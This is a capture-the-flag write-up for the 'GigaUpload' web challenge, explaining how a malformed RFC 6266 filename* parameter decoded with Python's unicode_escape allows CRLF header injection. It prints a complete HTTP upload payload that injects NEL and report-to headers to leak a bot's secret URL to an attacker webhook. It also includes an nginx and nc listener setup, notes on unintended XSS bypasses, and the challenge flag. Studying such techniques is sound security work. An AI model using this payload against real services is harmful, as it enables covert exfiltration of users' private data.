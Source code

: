 ## Title
GigaUpload

## Description
He fought hard with his extradition request only to bring you this last masterpiece. Unfortunately, he had no chance making it through. Not the service though, it's pretty much done.

## Solution
### Intended
*tl;dr Achieve CRLF through malformed RFC 6266 `filename*` parameter. Add NEL (Network Error Logging) headers and leak the flag URL.*

Examining storage service, we can notice that it partially handles RFC 6266, where you can specify a filename together with the encoding to properly handle non-ascii characters. The decoding is applied when metadata files are opened through `GET /{uuid}`:
```py
open(metadata_paths["name"], 'r', encoding=encoding)
```

We can't normally pass any control characters to the header fields because it will obviously break them for any HTTP parser. But, luckily for us, Python has special `unicode_escape` encoding which, when using decode, will unescape all backslash escaped characters (including `\r\n`), allowing us to inject them into the header value. The server is also running on built-in Python's HTTPServer, which is vulnerable to CLRF. Thus, we can add any headers to the response for our file.

But how CRLF can be used to leak bot's secret file url? Chromium has a tool for that!

And that's [Network Error Logging](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Network_Error_Logging). A feature, that can be enabled by a pair of `nel` and `report-to` headers. With the use of `success_fraction` param we can log successfull requests as well. And it's also not limited to any origins, allowing us to leak the requests to a remote webhook.

Complete file uploading payload (don't forget to grab the upload token):
```c
POST / HTTP/1.1
Host: gigastorage.task.sasc.tf
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBQBeXybmqkBrFW5X

------WebKitFormBoundaryBQBeXybmqkBrFW5X
Content-Disposition: form-data; name="upload_token"

%upload_token%
------WebKitFormBoundaryBQBeXybmqkBrFW5X
Content-Disposition: form-data; name="upload"; filename*=unicode_escape''1\r\nNEL:{"report_to":"c","max_age":1337,"success_fraction":1}\r\nreport-to:{"endpoints":[{"url":"https://%webhook%/"}],"group":"c","max_age":1337}
Content-Type: text/plain


------WebKitFormBoundaryBQBeXybmqkBrFW5X--
```

Browser will silently check that the specified endpoint supports HTTPS and also will send an OPTIONS request expecting certain headers in response. There will be no explicit errors if you're not passing the check.

Bot in this service has `acceptInsecureCerts` feature enabled, so there's no prerequisite to own a domain to solve it. If you have a webhook that can be configured to respond after OPTIONS - nice. For everyone else the simpliest solution might be using nginx with selfsigned certificate on a VPS.

Example nginx config:
```
server {
    listen 443 ssl;
    server_name %YOUR_IP%;

    ssl_certificate /etc/ssl/certs/nginx-selfsigned.crt;
    ssl_certificate_key /etc/ssl/private/nginx-selfsigned.key;

    location / {
        if ($request_method = OPTIONS ) {
            add_header Access-Control-Allow-Methods "POST, OPTIONS";
            add_header Access-Control-Allow-Headers "Content-Type";
            add_header Access-Control-Allow-Origin "*";
            return 200;
        }
        proxy_pass http://127.0.0.1:1337$request_uri;
    }
}
```

And then just `nc -lvp 1337`. On the first run you will receive the hit on your own file. However, NEL is persistent in the browser profile, so when you'd ask a bot to check some URL for the second time, it will first check his own file and it's URL will be logged to your hook.

### Unintended
While testing the task, we aknowledged that it can be solved using XSS and a Service Worker. To cover this, we added `Content-Disposition: attachment` header. It looked like a strong fix, because if you will try to bypass it, Chromium browsers will produce an `ERR_RESPONSE_HEADERS_MULTIPLE_CONTENT_DISPOSITION` error.

Unfortunately, it turned out that this restriction applies only to HTTP/1, while on the production environment we had a load balancer proxy that forced the HTTP/2 on end client requests. Thus, `Content-Disposition` could've been bypassed. You can read [ezzer's blog post](https://blog.z3r.ru/posts/content-disposition-attachment-bypass/) with more information this topic.

And there's one more possible trick. With CRLF, XSS can also be achieved with Payment Request API and a `Link` header, read [slonser's blog post](https://blog.slonser.info/posts/cve-2023-5480/) with more information on that technique.

## Flag
SAS{y0u_g07_7h3_k3y_70_n3lly5_s3cr3t_m3mory}

**Solved by:** 5 teams
